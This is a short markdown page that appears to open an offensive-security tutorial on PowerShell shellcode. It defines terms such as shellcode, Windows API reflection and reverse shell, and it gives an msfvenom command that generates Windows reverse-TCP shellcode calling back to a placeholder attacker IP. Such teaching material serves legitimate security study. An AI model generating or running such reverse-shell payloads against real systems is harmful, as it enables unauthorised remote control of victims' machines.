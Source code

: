 #cybersecurity #shellcodes


### Essential Terminologies

- **Shellcode**: piece of code usually used by malicious actors during exploits to inject command. Typically written in assembly
- **Powershell**: scripting language and command-line shell built into Windows
- **Windows Defender**: built-in security feature
- **Windows API**: this allows programs to interact with the underlying operating system.
- **Accessing Windows API though PowerShell Reflection**: advanced technique that enables dynamic interaction with the Windows API
- **Reverse shell**: a type of connection in wich the target initiates a connection back to your attacking machine


### Generating Shellcode
We use `msfvenom`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```